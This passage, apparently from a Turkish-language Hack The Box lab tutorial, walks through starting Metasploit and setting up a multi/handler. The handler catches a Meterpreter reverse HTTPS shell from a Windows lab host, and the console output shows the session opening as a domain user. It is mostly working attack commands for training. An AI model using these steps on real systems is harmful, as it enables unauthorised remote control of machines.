 
#### Starting MSF Console
```shell-session
M1R4CKCK@htb[/htb]$ sudo msfconsole

<SNIP>
```

#### Configuring & Starting the multi/handler
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

Payload'umuzu windows host üzerinde tekrar çalıştırarak bunu test edebiliriz ve bu sefer Ubuntu sunucusundan bir ağ bağlantısı görmeliyiz.


#### Meterpreter Oturumunun Kurulması
```shell-session
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```





















